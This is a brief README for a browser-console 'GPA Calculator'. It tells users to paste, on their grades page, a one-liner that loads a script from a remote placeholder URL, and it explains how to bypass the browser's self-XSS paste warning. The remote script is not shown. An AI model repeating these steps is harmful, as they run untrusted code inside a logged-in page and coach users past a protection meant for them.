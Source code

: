 # GPA Calculator
Calculates your GPA, duh

## How to Use
On your grades page, in the browser console, paste the following script:
```js
!function(u){var s=document.createElement("script");s.src=u,s.type="text/javascript",document.head.appendChild(s)}("https://example.com/script.js");
```
::: info
[If you're prompted a warning to not paste code into your browser console](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fdeveloper.chrome.com%2Fstatic%2Fblog%2Fself-xss%2Fimage%2Fself-xss-console-warn_1920.png&f=1&nofb=1&ipt=de598b8498cd5a7acda2a9ab22d4492cf7aa45c8d513b86cc390baa80ea5efe9), you can bypass it by typing `allow pasting` in the console.
:::
